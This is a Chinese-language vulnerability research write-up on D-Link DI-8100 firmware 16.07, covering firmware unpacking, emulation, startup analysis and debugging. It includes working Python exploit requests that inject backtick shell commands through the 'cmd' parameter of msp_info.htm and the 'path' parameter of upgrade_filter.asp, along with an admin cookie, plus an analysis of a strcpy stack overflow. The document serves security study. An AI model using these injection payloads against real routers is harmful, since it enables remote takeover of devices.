# dir-di-8100

根据以下描述，找出漏洞利用链

Description
A vulnerability, which was classified as critical, has been found in D-Link DI-8100 16.07. This issue affects the function msp_info_htm of the file msp_info.htm. The manipulation of the argument cmd leads to command injection. The attack may be initiated remotely. The exploit has been disclosed to the public and may be used. The identifier VDB-273521 was assigned to this vulnerability.

翻译：
描述
在 D-Link DI-8100 16.07 中发现了一个漏洞，该漏洞被归类为严重漏洞。此问题会影响文件 msp_info.htm 的 msp_info_htm 函数。对参数 cmd 的操作会导致命令注入。攻击可以远程启动。该漏洞已被公开披露，并可能被利用。此漏洞的标识符为 VDB-273521。


# 1、信息收集
## 1.1、基础信息收集
### binwalk
```
binwalk DI_8100-16.07.26A1.trx 
```


我们发现这个文件压缩的
直接解包
```
binwalk -Me DI_8100-16.07.26A1.trx 
```


### file&checksec


这个固件使用的是32位mips小端。

## 1.2、启动项分析


### firmeAE模拟
```
sudo ./run.sh -d dlink ./firmwares/dir/di-8100/DI_8100-16.07.26A1.trx
```



在进程里面看到，我们的固件启动的web服务是jhttpd

### web启动项
在上面解包的时候我们发现有一个init的可执行文件，还是个软连接。


我们发现它指向的是sbin/rc文件。（后面再详细解释解释）

我们接着往下看inittab


我们发现它启动了rcS文件，再继续看rcS文件


在rcS文件里面我们启动了goahead、nvram_daemon和telnetd文件。
但是通过我们的对固件的检索，我们并没有找到goahead和nvram_daemon文件。所以也就是说，这个rcS只是启动了一个telnetd。
在上面的分析我们知到，我们的web服务是jhttpd。但是我们并没有看到这些文件对它进行启动。
我们对这个web服务进行检索一下
```
grep -ir "jhttpd"
```


我们发现了我们上面分析的rc二进制文件（就是init软连接的这个）

我们再进一步检索这个文件。

```
strings rc | grep "jhttpd"
```

我们好像看到了这个文件对“jhttpd”的启动相关的内容。

我们打开这个二进制文件进行具体的启动逻辑分析

我们发现在这个二进制文件里面启动了这个web服务

我们打开这个函数，分析一下并对这个函数进行调用的追踪


```
int *start_jhttpd() // 定义函数，返回一个指向整数的指针
{
  int *result; // 声明一个指向整数的指针 result，用于存储返回值

  xstart("jhttpd", 0); // 调用 xstart 函数，启动名为 "jhttpd" 的服务，第二个参数为 0
  result = &pid_jhttpd; // 将 result 指向全局变量 pid_jhttpd 的地址
  pid_jhttpd = -2; // 将 pid_jhttpd 设置为 -2，表示进程未启动或处于错误状态
  return result; // 返回指向 pid_jhttpd 的指针
}
```



在往上追踪到main函数




# 2、第一个命令执行漏洞复现
## 2.1、漏洞分析
根据描述来看我们知道了受影响的函数是msp_info_htm
我们对这个进行检索
```
grep -ir "msp_info_htm"
```


我们发现这个只在jhttpd里面出现了，那么我们对jhttpd进行分析



这里面的param_1是传进来的值，先检查这个这个传进来的值是否包含“flag”如果包含进继续往下看是检查flag变量是否等于‘cmd’如果包含就去调用httpd_get_parm函数拿到这个cmd参数内容的地址，如果这个函数执行过后，返回的值不为空或者该地址指向的不是'\0'（即字符串的结尾标识符），那么就把这个pcVar5拼接给pcVar1，然后pcVar1作为system的参数。


## 2.2、exp
### 2.2.1、构造请求包
先抓一个访问msp_info.htm页面的请求包



然后对它按照我们上面分析的结果进行变量构造。


发送过后，发现请求是成功的。到模拟的固件进行检查。



我们发现我们的命令是成功的。

### 2.2.2、写exp


源码：
```
import requests

burp0_url = "http://192.168.0.1:80/msp_info.htm?flag=cmd&cmd=`echo%20aaa>c.txt`"
burp0_cookies = {"wys_userid": "admin,wys_passwd=520E1BFD4CDE217D0A5824AE7EA60632"}
burp0_headers = {"Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Accept-Encoding": "gzip, deflate, br", "Accept-Language": "zh,en-US;q=0.9,en;q=0.8", "Connection": "close"}
requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)


```




## 2.3、GDB动调


先编写di-8100.gdb

```
set architecture mips
set endian little
set sysroot lib/
set solib-search-path lib/
target remote 192.168.0.1:1337
# 命令执行函数的开始地址
b *0x0044D75C
# sprintf拼接前的地址
b *0x0044d92c
# sprintf跳转到system前的地址
b *0x0044dbf4

```



然后在firmAE里面进行GDB运行



```
gdb-multiarch -x di-8100.gdb 
```





跳转到命令执行



a0为拼接过后的命令，进入system命令进行执行。


# 3、第二个命令执行漏洞复现：
## 3.1、漏洞描述

在这个固件我们对system的危险函数的调用排查时，检查到在upgrade_filter_asp函数存在未过滤的命令执行。



a1时传进来的参数，parm是变量path的值，在下面对这个值进行了验证，看是否含有：'http://'，再往下parm拼接给v16，然后v16作为参数传给system进行命令执行。

## 3.2、exp

我们上述分析的看到，我们要进行的拼接命令的变量是path，





exp：

```

import requests

burp0_url = "http://192.168.0.1:80/upgrade_filter.asp?path=http://`ps%20%3E%20/longlong.txt`"
burp0_cookies = {"uid": "h3r4yvoOTp", "wys_userid": "admin,wys_passwd=520E1BFD4CDE217D0A5824AE7EA60632"}
burp0_headers = {"Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Accept-Encoding": "gzip, deflate, br", "Accept-Language": "zh,en-US;q=0.9,en;q=0.8", "Connection": "close"}
requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)

```


# 4、第三个栈溢出漏洞复现：

## 4.1、漏洞分析：

通过对jhttpd的危险函数strcpy查看，我们发现在这个函数里面有一个可控的栈溢出。






我们通过上面的信息，看到这个V26的大小为1024，但是这边的v3是str变量传进来的值。所以可以有可能制造出来栈溢出。感觉理论通，那么进行实践。

## 4.2、实践

通过这边的分析我们可以看出，这个页面完整的访问包需要四个变量值，但是对我们要溢出的点是str，所以我们就构造str就可以了。


# 5、关于一些细节的补充
## 关于启动项
流程总结
启动 init：内核启动后，运行 /sbin/init。
读取 inittab：init 读取 /etc/inittab 文件，确定默认运行级别和要执行的初始进程。
执行系统初始化：根据 inittab 中的配置，执行系统初始化脚本和命令。
进入运行级别：切换到指定的运行级别，并启动该级别下的所有服务和进程。





## 关于gdb看详细的函数调用过程

请看本社区文章：




通过查看ra存储的值，我们追踪到了这个地方调用了我们的函数
